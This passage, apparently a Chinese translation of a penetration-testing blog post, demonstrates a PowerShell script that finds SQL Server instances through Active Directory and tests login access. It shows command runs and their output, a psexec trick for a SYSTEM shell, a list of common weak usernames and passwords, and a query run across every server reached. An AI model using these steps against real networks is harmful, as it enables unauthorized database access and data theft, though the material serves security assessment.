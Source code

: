 PS C:\Get-SQLServerAccess -ShowSum | export-csv c:\temp\sql-server-excessive-privs.csv
[*] ----------------------------------------------------------------------
[*] Start Time: 04/01/2014 10:00:00
[*] Domain: mydomain.com
[*] DC: dc1.mydomain.com
[*] Getting list of SQL Server instances from DC as mydomain\myuser...
[*] 5 SQL Server instances found in LDAP.
[*] Attempting to login into 5 SQL Server instances as mydomain\myuser...
[*] ----------------------------------------------------------------------
[-] Failed   - server1.mydomain.com is not responding to pings
[-] Failed   - server2.mydomain.com (192.168.1.102) is up, but authentication/query failed
[+] SUCCESS! - server3.mydomain.com,1433 (192.168.1.103) - Sysadmin: No - SvcIsDA: No 
[+] SUCCESS! - server3.mydomain.com\SQLEXPRESS (192.168.1.103) - Sysadmin: No - SvcIsDA: No
[+] SUCCESS! - server4.mydomain.com\AppData (192.168.1.104) - Sysadmin: Yes - SvcIsDA: Yes             
[*] ----------------------------------------------------------------------
[*] 3 of 5 SQL Server instances could be accessed.        
[*] End Time: 04/01/2014 10:02:00      
[*] Total Time: 00:02:00
[*] ----------------------------------------------------------------------
下面是一个上例中输出的截图。

enter image description here

上面的例子只是展示了我实验室中测试的结果，但是在真实环境中我通常看到成百上千的服务器。Just for fun，我同样建议你以一个域用户权限去运行这个脚本，通过使用”psexec.exe –s –I cmd.exe”之后可以获取一个本地system权限的shell。然后向上述的一样运行脚本。我想你会惊讶于登陆进了多少台SQL server,我记得我当时的样子。不管怎么说，到了攻击的例子了。 攻击者使用示例 对于SQL server来说有很多的攻击方法。下面我将介绍在脚本帮助下的五种攻击技术。

1，弱口令猜解仍然是一种有效的攻击方法。在每个客户的测试环境中，我们发现每次都有少量存在弱口令的SQL Server。通常登陆用户名包括sa,test,dba,user和sysadmin。密码则是:[the username], [the company], password, Password1和SQL。除此之外有很多的数据库弱口令猜解工具，但是我还是加了一个SQL Server登陆的参数来验证在ADS中发现的SQL Server，下面是一个示例。注意：这个参数也可以方便的发现不同服务器登录情况。

PS C:\Get-SQLServerAccess -sqluser test -sqlpass test
[*] ----------------------------------------------------------------------
[*] Start Time: 04/01/2014 10:00:00
[*] Domain: mydomain.com
[*] DC: dc1.mydomain.com
[*] Getting list of SQL Server instances from DC as mydomain\myuser...
[*] 5 SQL Server instances found in LDAP.
[*] Attempting to login into 5 SQL Server instances as test...
[*] ----------------------------------------------------------------------
[-] Failed   - server1.mydomain.com is not responding to pings
[-] Failed   - server2.mydomain.com (192.168.1.102) is up, but authentication failed
[+] Failed   - server3.mydomain.com,1433 (192.168.1.103) is up, but authentication failed
[+] Failed   - server3.mydomain.com\SQLEXPRESS (192.168.1.103) is up, but authentication failed
[+] SUCCESS! - server4.mydomain.com\AppData (192.168.1.104) - Sysadmin: No - SvcIsDA: Yes             
[*] ----------------------------------------------------------------------
[*] 1 of 5 SQL Server instances could be accessed.        
[*] End Time: 04/01/2014 10:02:00      
[*] Total Time: 00:02:00
[*] ----------------------------------------------------------------------
2，寻找敏感数据一直都很重要。使用自定义的”-query”参数便可以在每一个可登陆的SQL Server中查询你想要的信息。下面是一个简单的示例，演示如何列出用户可以登陆的服务器中的信息。 PS C:\Get-SQLServerAccess -query "select name as 'Databases' from master..sysdatabases where HAS_DBACCESS(name) = 1"
